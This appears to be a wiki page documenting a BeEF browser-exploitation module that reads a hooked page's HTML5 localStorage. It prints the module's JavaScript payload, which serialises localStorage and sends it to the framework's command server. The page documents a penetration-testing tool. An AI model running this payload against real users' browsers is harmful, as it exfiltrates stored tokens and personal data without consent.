 ## Summary
* **Objective**: Extracts data from the HTML5 localStorage object..
* **Date**: ???
* **Authors**: bcoles
* **Browsers**: Internet Explorer 8+, Firefox 4+, opera 11+, Chrome 4+, Safari 4+
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_local_storage]]

## Internal Working

This module just gather the localStorage of the page by using window['localStorage'] :

```javascript
	beef.net.send("<%= @command_url %>", <%= @command_id %>, "localStorage="+JSON.stringify(window['localStorage']));
```

## Feedback